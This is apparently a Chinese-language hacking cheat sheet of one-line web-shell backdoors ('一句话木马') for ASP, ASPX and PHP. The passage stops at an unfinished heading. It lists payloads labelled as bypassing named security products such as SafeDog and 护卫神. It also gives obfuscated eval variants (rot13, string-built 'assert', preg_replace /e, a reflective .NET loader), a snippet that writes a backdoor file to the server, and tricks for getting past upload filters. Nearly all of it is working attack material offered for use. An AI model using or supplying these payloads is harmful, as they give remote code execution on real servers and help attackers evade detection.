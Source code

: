 ### 0x03 一句话木马
 
asp一句话木马：<%eval request(“x”)%>

php一句话木马：<?php eval($_POST[g]);?>

aspx一句话：<%@ Page Language=”Jscript”%><%eval(Request.Item[“x”],”unsafe”);%>

网站配置、版权信息专用一句话：”%><%Eval Request(x)%>

一句话再过护卫神：<%Y=request(“x”)%> <%execute(Y)%>

过拦截一句话木马：<% eXEcGlOBaL ReQuEsT(“x”) %>

asp闭合型一句话 %><%eval request(“0o1Znz1ow”)%><%

能过安全狗的解析格式：;hfdjf.;dfd.;dfdfdfd.asp;sdsd.jpg

突破安全狗的一句话：<%Y=request(“x”)%> <%eval(Y)%>

elong过安全狗的php一句话：<?php $a = “a”.”s”.”s”.”e”.”r”.”t”; $a($_POST[cc]); ?>

后台常用写入php一句话（密码x）：

<?

$fp = @fopen(“c.php”, ‘a’);

@fwrite($fp, ‘<‘.’?php’.”\r\n\r\n”.’eval($_POST[x])’.”\r\n\r\n?”.”>\r\n”);

@fclose($fp);

?>

高强度php一句话：

<?php substr(md5($_REQUEST[‘heroes’]),28)==’acd0’&&eval($_REQUEST[‘c’]);?>

新型变异PHP一句话(密码b4dboy):

($b4dboy = $_POST[‘b4dboy’]) && @preg_replace(‘/ad/e’,’@’.str_rot13(‘riny’).’($b4dboy)’, ‘add’);

突破安全狗的aspx一句话：

<%@ Page Language=”C#” ValidateRequest=”false” %>

<%try{ System.Reflection.Assembly.Load(Request.BinaryRead(int.Parse(Request.Cookies[“你的密码”].Value))).CreateInstance(“c”, true, System.Reflection.BindingFlags.Default, null, new object { this }, null, null); } catch { }%>

突破护卫神，保护盾一句话：

<?php $a = str_replace(x,””,”axsxxsxexrxxt”);

$a($_POST[“test”]); ?>

许多网页程序都不允许包含〈%%〉标记符号的内容的文件上传，这样一句话木马就写入不进数据库了。

改成：〈scriptlanguage=VBScript runat=server〉execute request(“l”)〈/Script〉

这样就避开了使用〈%%〉，保存为.ASP,程序照样执行的效果是一样的。

PHP高强度一句话：
